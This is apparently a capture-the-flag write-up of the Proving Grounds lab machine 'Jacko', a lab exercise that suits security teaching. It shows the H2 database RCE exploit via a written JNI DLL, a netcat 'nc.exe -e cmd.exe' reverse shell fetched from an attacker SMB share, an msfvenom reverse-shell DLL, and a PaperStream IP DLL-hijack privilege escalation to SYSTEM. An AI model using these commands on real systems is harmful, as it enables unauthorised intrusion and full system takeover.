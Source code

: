 ```yaml
---
layout: post
title: PG | Jacko
subtitle: A machine best paired with a nice cup of coffee.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 15:02 UTC
Nmap scan report for 192.168.191.66
Host is up (0.015s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8082/tcp  open  http          H2 database http console
|_http-title: H2 Console
9092/tcp  open  XmlIpcRegSvc?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-26T15:05:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.70 seconds
~~~

# Service Enumeration

## HTTP (TCP/80)

The target is hosting an Apache web server on port 80 that displays a guide on how to use a H2 Database Engine (Java and SQL)

## SMB (TCP/139, 445)

An SMB server is also running on the target, I attempted to connect via a NULL session however the attempt was denied
~~~shell
┌──(kali㉿kali)-[~/Desktop/Jacko]
└─$ smbclient -N -L //192.168.191.66                 
session setup failed: NT_STATUS_ACCESS_DENIED
~~~

## HTTP (TCP/8082)

Port 8082 is running the H2 Database console for remote management of the database software as shown below

![Jacko](/assets/img/JackoPG(1).png)

When clicking connect using the default loaded credentials (sa:) we are brought to the management console

![Jacko](/assets/img/JackoPG(2).png)

The left panel shows us our current user 'sa' has admin permissions and the current version is H2 1.4.199

![Jacko](/assets/img/JackoPG(3).png)

I searched for exploits relating to the H2 Database version 1.4.199 and found this [exploit](https://www.exploit-db.com/exploits/49384) which allows remote code execution by:
1. Writing a native java library to the H2 servers disk using the H2 function 'CSVWRITE'
2. Loads the library using 'java.lang.System.load'
3. Commands can then be issued via calling 'JNIScriptEngine.eval' which is a java interpreter that evaluates and issues the scripts we enter

~~~shell
-- Write native library
SELECT CSVWRITE('C:\Windows\Temp\JNIScriptEngine.dll', CONCAT('SELECT NULL "', CHAR(0x4d),CHAR(0x5a),CHAR(0x90),CHAR(0x00),CHAR(0x03),CHAR(0x00),CHAR(0x00)...;))

-- Load native library
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');

-- Evaluate script
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
~~~

To get my initial foothold I first started a netcat listener on port 8082 on my attack machine

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8082
listening on [any] 8082 ...
~~~

I then created an SMB share (as SMB is running on the target) and placed nc.exe (netcat) in the share

~~~shell
┌──(kali㉿kali)-[~/Desktop/Jacko]
└─$ impacket-smbserver share /home/kali/Desktop/Jacko -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
~~~

I then ran my payload on the H2 console to connect to the share and execute nc.exe locally to create a remote connection to my netcat listener on port 8082

~~~shell
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.187/share/nc.exe -e cmd.exe 192.168.45.187 8082").getInputStream()).useDelimiter("\Z").next()');
~~~

I then recieved my initial foothold!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8082
listening on [any] 8082 ...
connect to [192.168.45.187] from (UNKNOWN) [192.168.191.66] 49844
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\H2\service>
~~~

When navigating around the filesystem I found an application in Program Files (x86) named PaperStream IP, I then searched it up for exploits and found [this](https://www.exploit-db.com/exploits/49382) exploit which is a DLL Hijacking vulnerability in which we can inject a payload to perform privilege escalation. This exploit works on version 1.42

![Jacko](/assets/img/JackoPG(4).png)

I then searched through the softwares directories looking to find the version, and found a file under C:\Program Files (x86)\PaperStream IP\TWAIN>type readmeenu.rtf that stated the version number 1.42 as shown below

![Jacko](/assets/img/JackoPG(5).png)

I generated the DLL payload reverse shell as discussed in the exploit (PaperStreamIP is stored in the Program Files x86 directory so we will need to generate a 32 bit payload not 64 bit)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Jacko]
└─$ msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=tun0 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
~~~

I then transferred the payload via SMB to the target machine

~~~shell
C:\Users\tony>copy \\192.168.45.187\share\shell.dll
copy \\192.168.45.187\share\shell.dll
        1 file(s) copied.
~~~

I downloaded the exploit to my attack machine and edited the Payload variable to specify my reverse shell .dll

![Jacko](/assets/img/JackoPG(6).png)

I then started a netcat listener on port 4444, transferred the exploit via SMB and executed the exploit

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
~~~

~~~shell
C:\Users\tony>copy \\192.168.45.187\share\49382.ps1
copy \\192.168.45.187\share\49382.ps1
        1 file(s) copied.
~~~
~~~shell
C:\Users\tony>C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\users\tony\49382.ps1
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\users\tony\49382.ps1
Writable location found, copying payload to C:\JavaTemp\
Payload copied, triggering...
~~~

I then recieved the root (system) shell on my listener!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.45.187] from (UNKNOWN) [192.168.191.66] 49909
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~